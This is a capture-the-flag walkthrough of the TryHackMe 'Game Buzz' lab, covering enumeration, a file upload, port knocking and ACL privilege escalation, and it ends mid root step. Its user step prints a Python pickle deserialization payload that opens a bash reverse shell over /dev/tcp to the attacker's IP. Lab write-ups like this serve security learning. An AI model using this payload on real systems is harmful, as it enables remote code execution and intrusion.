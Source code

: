 # Game Buzz

![image](https://user-images.githubusercontent.com/5285547/128932672-b10c018a-8d55-4bfd-8edb-1d4100c0a480.png)

Romm link: https://tryhackme.com/room/gamebuzz

## Enum

Nmap

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Incognito
```

---
## Port 80 

Checking the main website didn't show much, apart from a button that loads a file with a .pkl extension. 

![image](https://user-images.githubusercontent.com/5285547/128937818-90d5dd7c-561d-4463-8a1c-a79311deb7b5.png)

Also we find a domain name. 

```
sudo nano /etc/hosts  
ip incognito.com
```

## dev.incognito.com

```
sudo nano etc/hosts
IP dev.incognito.com
```

http://dev.incognito.com/secret/upload/

Finding the endpoint we can try to upload a file of our own. Based on the .pkl file extension this hints at python pickle deserilization. 

## User

If we can get our file to be read from the main website we can get RCE. 

test.pkl (rev shell)

```
#!/usr/bin/env python3
import pickle, os
class pickleSerilization(object):
    def __reduce__(self):
        return (os.system,("bash -c 'bash -i >& /dev/tcp/10.8.153.120/9999 0>&1'",))
pickle.dump(pickleSerilization(), open("rev_shell", "wb"))
```
Running the code gives us the rev_shell file. Upload this at "http://dev.incognito.com/secret/upload/" then call it with the main website.

![image](https://user-images.githubusercontent.com/5285547/128940779-a030648b-e70f-49e1-b35f-53d343d13e96.png)

```
su dev2
#no password
```

Now we can access the /home/dev2/ folder to find the user flag. 

---
## User 2

We find a file called "/etc/knockd.conf" that looks intresting. I see some ports we need to knock to open SSH

```
[options]
        logfile = /var/log/knockd.log

[openSSH]
        sequence    = 5020,6120,7340
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCE$
        tcpflags    = syn

[closeSSH]
        sequence    = 9000,8000,7000
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJE$
        tcpflags    = syn


5020,6120,7340
```

Doing some more enumeration showed some mails for dev1 in /var/mail, with a message to let ourselfs in! 

![image](https://user-images.githubusercontent.com/5285547/129106087-17c54550-1086-4344-9ff7-01f9253d7e90.png)

Using knock I opend the SSH port then used the password to login as dev1. 

```
knock  10.10.28.93 5020 6120 7340

ssh dev1@incognito.com
dc647eb65e6711e155375218212b3964
```

![image](https://user-images.githubusercontent.com/5285547/128942276-39b99b82-3826-4ec6-a5a8-341f920dda9b.png)

---
## Root

Enumerating the system again we can see the same file popping up in linpeas with acl permissions set. 

![image](https://user-images.githubusercontent.com/5285547/128942448-bd64f8da-f086-4d76-9c72-6e728f375d2e.png)

Knowing this lets edit the file to test some command execution (as root). 

```
nano /etc/knockd.conf

# acl 

setfacl -m u:dev1:rw /etc/knockd.conf
```







